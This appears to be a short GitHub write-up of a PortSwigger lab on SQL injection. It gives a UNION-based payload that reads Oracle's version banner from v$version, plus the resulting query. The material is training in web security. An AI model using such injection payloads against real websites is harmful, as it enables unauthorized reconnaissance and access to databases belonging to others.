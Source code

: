 ## Lab Description: SQL injection attack, querying the database type and version on Oracle

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/25571c47-3460-41b7-8363-704f83ec43cf)

### Solution:

The SELECT version FROM v$instance only returns the version number, the first one, SELECT banner FROM v$version, returns the full version string that is requested.

Therefore I need to inject `' UNION SELECT 'a',banner FROM v$version--` to obtain the version information with the following query:

` SELECT * FROM someTable WHERE category='Pets' UNION SELECT 'a',banner FROM v$version-- `

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/a9038f3d-f473-46f4-a3b0-4ea2fd45057a)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/f09cf081-c157-48c4-9b1b-54c357d8af12)
